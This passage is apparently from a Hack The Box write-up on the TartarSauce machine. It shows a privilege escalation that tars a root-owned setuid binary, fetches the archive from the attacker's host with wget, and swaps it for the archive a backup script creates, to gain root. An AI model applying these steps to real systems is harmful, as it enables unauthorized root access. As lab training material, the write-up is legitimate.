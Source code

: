 		┌──(root💀kali)-[~/htb/tartarsauce/10.10.10.88/exploit/web_dir/var/www/html]
		└─# ls -la
		total 44
		drwxr-xr-x 3 www-data www-data  4096 Sep 10 00:23 .
		drwxr-xr-x 3 root     root      4096 Sep 10 00:15 ..
		-rw-r--r-- 1 root     root     10766 Feb 22  2018 index.html
		-rw-r--r-- 1 root     root       208 Feb 22  2018 robots.txt
		-rwsr-xr-x 1 root     root     15296 Sep 10 00:23 setuid
		drwxr-xr-x 4 root     root      4096 May 12 18:55 webservices
		
		```
	4. Create archive
		```
		┌──(root💀kali)-[~/htb/tartarsauce/10.10.10.88/exploit/web_dir]
		└─# tar -zcvf sauce_web_dir_suid var/www/html/
		```
	5. Switch user to `onuma` because `/var/tmp/.RANDOM` is owned by `onuma`
	6. Transfer back to `tartarsauce.htb`
		```
		onuma@TartarSauce:/tmp$ wget 10.10.14.17:9090/sauce_web_dir_suid -O /tmp/sauce_web_dir_suid
		```
	8. Wait for `backuperer` to execute, generating `/var/tmp/.RANDOM` archive
	9. Replace our archive w/ `/var/tmp/.RANDOM`
		```
		onuma@TartarSauce:/var/tmp$ cp /tmp/sauce_web_dir_suid /var/tmp/.3f2d27416c4d4e4
		```
	10. Wait for 30seconds
	11. Proceed to `check/var/www/html` & execute `setuid`
		![](Pasted%20image%2020220910011310.png)
	12. Demo - Backuperer SetUID Privilege Escalation
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="setuid"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/TartarSauce/images/setuid.cast', document.getElementById('setuid'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>


